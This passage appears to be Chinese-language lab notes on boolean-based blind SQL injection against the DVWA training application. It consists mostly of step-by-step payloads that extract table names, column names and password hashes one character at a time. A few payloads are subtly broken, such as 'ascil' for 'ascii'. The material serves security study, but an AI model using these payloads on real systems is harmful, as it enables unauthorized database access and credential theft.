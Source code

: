 1' and (select(select count(table_name) from information_schema.tables where table_schema='dvwa')=2)#
![image-20241026225251352](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026225251352.png)

爆第一张表长度：可得第一张表长为9

1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))>8#           //exsist

1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))>10#        //missing

同理，爆第二张表长度:可得为5

1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))>4#    // //exist

1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))>5#    //missing

爆表名，一个字符一个字符地猜

1' and (select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema='dvwa' limit 0,1)>100#  

可得第一张表第一个字符为g,依次类推可得第一张表为guessbook,第二张表为users

猜字段名称:1' and (select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='password')=1#
![image-20241028221129407](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241028221129407.png)

说明users下有一个字段名为password，同理可猜到字段名user,通配符like可以缩小范围

爆密码的字段长度：1' and length((select password from users limit 0,1))>32# 
可得密码长度为32位，同理爆用户名的字段长度：1' and length((select user from users limit 0,1))>4#
可得用户名长度为5位，逐个类推

爆密码字段值：1' and ascil(substr((select password from users limit 0,1),1,1)>100#

以此类推可爆出密码的值

##### 7、使用布尔盲注在后端实现“库名-表名-列名”的注入过程，写清楚注入步骤。

爆库名长度：select first_name,last_name from users where user_id='1' and length(database())>5;

爆库名：select first_name,last_name from users where user_id='1' and ascii(substr(database(),1,1))>100;

爆表名长度：select first_name,last_name from users where user_id='1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))>10# 

爆表名：select first_name,last_name from users where user_id='1' and (select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema='dvwa' limit 0,1)>100#  

猜字段：select first_name,last_name from users where user_id='1' and (select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='password')=1;

猜字段长度：select first_name,last_name from users where user_id='1' and length((select password from users limit 0,1))>32;

猜字段值：select first_name,last_name from users where user_id='1' and ascil(substr((select password from users limit 0,1),1,1)>100;
